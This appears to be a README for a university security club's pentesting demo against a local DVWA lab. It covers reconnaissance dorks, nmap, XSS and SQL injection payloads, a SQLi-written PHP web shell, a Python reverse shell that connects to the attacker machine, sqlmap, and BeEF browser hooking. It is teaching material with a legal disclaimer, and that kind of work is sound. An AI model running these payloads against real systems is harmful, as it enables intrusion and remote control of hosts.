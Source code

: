 # Abakus Security Demo

[Presentation slides](https://docs.google.com/presentation/d/1gW_8E_jsF_oDMjmKVYkI13REUKjg_uInGTV_RXsxoQ8/edit?usp=sharing)

This is a simple security / pentesting demo run for Abakus at NTNU in Trondheim.
There are two hosts used in this demo:
```
Victim (Ubuntu 16.04): 192.168.56.101
Attacker (Kali Linux): 192.168.56.102
```
To adopt this demo, simply change those IPs in the examples.

## Disclaimer

DO NOT use the techniques shown here towards live targets on the internet, your friends, or school resources.
Doing so is most likely against the law and is simply not cool, always ask for explicit permission before attempting any form of pentesting! 

# Setup victim machine

This was done on a Ubuntu 16.04 server.

## Install Docker

```
$ sudo apt-get update && apt-get install docker.io
$ sudo systemctl start docker
```

## Setup Damn Vulnerable Web Application (DVWA)

Pull the image from DockerHub:
```
$ sudo docker pull citizenstig/dvwa
```

Fire up the container:
```
$ sudo docker run -d -p 80:80 citizenstig/dvwa:latest
```

1. DVWA is now available at `http://192.168.56.101:80`
2. Follow the instructions to setup the MySQL database within the browser
3. Refresh and login, default username is `admin` and the default password is `password`

# Recon
## google hacking
Popular search operations
`site`, `filetype`, `inurl`, `intitle`

Database for URL queries for hacking: [Google Hacking DB](https://www.exploit-db.com/google-hacking-database/)

Find hardware with known vulnerabilities
`intitle:"SpeedStream Router Management Interface"`

Web accessible, Open Cisco Routers
`inurl:"level/15/exec/-/show"`

## TheHarvester
Installation instructions: https://github.com/laramies/theHarvester

Example command for assessing google
`theharvester -d megacorpone.com -l 500 -b all > megacorpone.txt`


## Nmap

Scanning the Victim's machine through Nmap
`sudo nmap 192.168.56.102 -sV -sC -O`


# Finding vulnerabilities

## Cross Site Scripting (XSS)

1. Go to `http://192.168.56.101/security.php` and set security level to low.
2. Go to `http://192.168.56.101/vulnerabilities/xss_r/`. Explore the functionality.
3. Reflect on the source code by clicking "View Source" in the bottom right.
4. Play around with some input, does the application reflect `<`, `'`, `"`?
5. Can you put actual HTML tags in there, like `<pre>`, `<a>`?
6. Attempt to use the classic `<script>alert(1)</script>` to check for XSS.
7. Show the same with the persistant/stored XSS at `http://192.168.56.101/vulnerabilities/xss_s/`

## SQL Injection (SQLi)

1. Go to `http://192.168.56.101/security.php` and set security level to low.
2. Go to `http://192.168.56.101/vulnerabilities/sqli/` and explore the functionality
3. View the source by clicking "View Source" in the bottom right.
4. Input a single quote `'` into the input field.
	+ Makes query: `"SELECT first_name, last_name FROM users WHERE user_id = '''";`
5. Input `1' OR 1=1;#` into the input field. 
	+ Makes query: `"SELECT first_name, last_name FROM users WHERE user_id = '1' OR 1=1;#'";`
6. Demonstrate that arbitrary information can be received:
	+ `1' union select all 1,@@version;#`
	+ `1' union select all 1,table_name FROM information_schema.tables;#`
7. Show that files can be written as well:
	+ `1' union select all 1,"<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE '/tmp/backdoor.php';#`
8. Take advantage of it with path traversal vulnerability:
	+ `http://192.168.56.101/vulnerabilities/fi/?page=../../../../../tmp/backdoor.php&cmd=id`
9. Run `sqlmap -u "http://192.168.56.101/vulnerabilities/sqli/?id=123&Submit=Submit#"`.
10. Fetch cookie values from CookieManager+
11. Run `sqlmap -u "http://192.168.56.101/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=[SESSION FROM COOKIES]"`
12. Run `sqlmap -u "http://192.168.56.101/vulnerabilities/sqli/?id=123&Submit=Submit#" --cookie="security=low; PHPSESSID=[SESSION FROM COOKIES]" --tables`

# Exploitation

## Reverse shell using SQLi
1. Want to take advantage of the SQLi and the path traversal vulnerability we found previously.
2. Reflect on why we'd want to use a reverse shell (victim -> attacker) instead of a regular shell (attacker -> victim).
3. Prepare to receive the shell by using a netcat listener on the attacker machine: `nc -l -p 5454`
4. Confirm that python is available on the victim: `http://192.168.56.101/vulnerabilities/fi/?page=../../../../../tmp/backdoor.php&cmd=which python`
5. We'll get the reverse shell using the following Python one-liner:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
6. Execute the reverse shell on the victim: 
```
http://192.168.56.101/vulnerabilities/fi/?page=../../../../../tmp/backdoor.php&cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",5454));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
7. Shell, woo!

## BeEF Command and Control using XSS

1. Fire up BeEF in Kali:
```
root@kali:~# beef-xss
```
2. Open up the BeEF GUI at `http://192.168.56.101:3000/ui/panel` and login with the credentials beef:beef
3. Host a simple HTML page with the following content:
```
root@kali:/var/www/html# cat beef.html 
<html>
<head>
<script src="http://192.168.56.102:3000/hook.js"></script>
</head>
<body>
<h1>Welcome to my awesome page</h1>
<h2>Enjoy your stay!</h2>
</body>
```
4. Get hooked by going to the URI `http://192.168.56.101:3000/beef.html` in a browser of your choosing
5. Show some functionality by selecting `hoooked browser -> Commands -> Browser -> Hooked Domain -> Create Alert Dialog`

# Resources

## Kali Linux
https://www.kali.org/

## Vulnerable applications
1. Damn Vulnerable Web Application: http://www.dvwa.co.uk/
2. WebGoat: https://github.com/WebGoat/WebGoat
3. Mutillidae 2: https://www.owasp.org/index.php/OWASP_Mutillidae_2_Project

## Prevent vulnerabilities:
XSS: https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet

SQL injection: https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet

##  Educational resources
1. Hacker101 - Video Resources https://www.hacker101.com/
